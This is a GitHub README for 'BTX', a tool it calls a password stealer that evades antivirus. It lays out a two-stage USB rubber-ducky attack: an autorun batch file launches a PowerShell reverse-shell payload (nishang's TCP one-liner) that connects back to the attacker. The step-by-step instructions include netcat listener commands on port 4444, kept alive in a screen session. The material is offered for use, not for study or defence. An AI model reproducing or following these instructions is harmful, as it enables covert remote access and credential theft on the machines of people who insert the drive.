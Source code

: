 # BTX
This is a modified version of venom aka password stealer with added capabilities of powershell makes it faster and also helps with evading antivirus programs.

This is a two stage exploit meaning it has to be staged because it makes it easier to modify payload and if you want to add another payload to be executed 

so what we're doing is we're adding a small powershell script in our pendrive (rubber ducky) which will Execute our main powershell payload which we have on our pendrive. 

payload we're going to be hosting is payload.ps1 (powershelltcponeliner.ps1 by nishang) which will give reverse connection to the attacker machine if we set up our listner correctly.

Follow the installation procedure below 

Step 1: git clone this repo onto your pendrive which is without any subfolders 

Step 2: start the listner on your host (attacker machine)
>while true; do nc -l -p 4444; done

this will start listening on port 4444 which we'll specify in our payload.ps1 file along with the attackers IP address, this is a simple while loop which will keep our listner alive by executing it in loop
you can even start a screen session that way our listner will always be active even if we close our terminal

>screen -dmS netcat_listener bash -c 'while true; do nc -lp 4444; done'

you can view your running screen sessions with 

>screen -list
There is a screen on:
	22794.netcat_listener 	(11/01/2016 03:36:01 PM)	(Detached)
1 Socket in /var/run/screen/S-dk.

Step 3: now that you've all the things you need make your pendrive to autorun launch.bat file with USB AutoRun Creator.exe

And let the action begin